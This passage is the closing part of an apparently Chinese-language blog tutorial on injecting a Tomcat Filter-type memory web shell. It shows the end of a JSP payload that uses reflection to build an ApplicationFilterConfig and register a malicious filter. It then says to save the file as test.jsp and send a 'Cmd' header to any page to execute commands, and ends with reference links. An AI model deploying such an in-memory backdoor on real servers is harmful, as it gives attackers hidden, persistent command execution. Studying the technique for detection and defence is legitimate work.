 ```java
        // 因为 ApplicationFilterConfig 的构造方法是不带 public 的, 即默认的作用域为 package, 所以我们需要通过反射来实例化该对象
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        
        // 添加 FilterConfig
        filterConfigs.put(filterName, applicationFilterConfig);

        out.print("inject success");
    }
%>
```

保存为 test.jsp

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051210084.png)

最后携带 Cmd header 访问任意页面

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211051211226.png)

成功执行命令

## 参考文章

[https://xz.aliyun.com/t/10362](https://xz.aliyun.com/t/10362)

[http://wjlshare.com/archives/1529](http://wjlshare.com/archives/1529)
